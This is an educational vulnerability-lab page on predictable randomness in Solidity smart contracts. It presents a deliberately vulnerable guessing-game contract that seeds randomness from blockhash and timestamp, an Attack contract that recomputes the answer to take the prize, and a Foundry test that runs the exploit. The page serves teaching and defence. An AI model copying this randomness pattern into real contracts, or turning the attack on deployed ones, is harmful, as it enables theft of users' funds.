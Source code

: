 # Randomness  
[Randomness.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Randomness.sol)   
**Name:** Predictable Randomness Vulnerability

**Description:**  
Use of global variables like block hash, block number,
block timestamp and other fields is insecure, miner and attacker can control it.

**Scenario:**  
GuessTheRandomNumber is a game where you win 1 Ether if you can guess the pseudo random number generated from block hash and timestamp.

At first glance, it seems impossible to guess the correct number.But let's see how easy it is win.

1. Alice deploys GuessTheRandomNumber with 1 Ether
2. Eve deploys Attack
3. Eve calls Attack.attack() and wins 1 Ether

**What happened?**  
Attack computed the correct answer by simply copying the code that computes the random number.

**Mitigation:**  
Don't use blockhash and block.timestamp as source of randomness

**REF:**

https://solidity-by-example.org/hacks/randomness/

**GuessTheRandomNumber Contract:**  
```
contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```
****How to Test:****

forge test --contracts src/test/**Randomness.sol**-vvvv  
```
// Function to test an attack on a contract using predictable randomness.
function testRandomness() public {
    // Assigns address values to 'alice' and 'eve' from the Ethereum virtual machine.
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice is given 1 ether.
    vm.deal(address(alice), 1 ether);

    // Some prank function is called with Alice's address.
    vm.prank(alice);

    // An instance of GuessTheRandomNumberContract is created with a balance of 1 ether.
    GuessTheRandomNumberContract = new GuessTheRandomNumber{value: 1 ether}();

    // A prank on Eve is started.
    vm.startPrank(eve);

    // An instance of the Attack contract is created.
    AttackerContract = new Attack();

    // The current balance of the AttackerContract is logged.
    console.log("Before exploiting, Balance of AttackerContract:", address(AttackerContract).balance);

    // The Attack contract attempts to guess the random number of the GuessTheRandomNumberContract.
    AttackerContract.attack(GuessTheRandomNumberContract);

    // The balance of the AttackerContract is logged again, showing if the attack was successful.
    console.log("Eve wins 1 Eth, Balance of AttackerContract:", address(AttackerContract).balance);

    // Logs a message indicating the exploit is complete.
    console.log("Exploit completed");
}


// The Attack contract that attempts to guess the random number of the GuessTheRandomNumberContract.
contract Attack {
    // A function that allows this contract to receive Ether.
    receive() external payable {}

    // The attack function that calculates the pseudo-random number using the same logic as the GuessTheRandomNumberContract 
    // and uses that to guess the number.
    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        // Calls the guess function of GuessTheRandomNumber contract with the guessed answer.
        guessTheRandomNumber.guess(answer);
    }

    // Helper function to check the balance of this contract.
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
``` 
Red box: guessed the answer and win the game.  
![Alt text](image-13.png)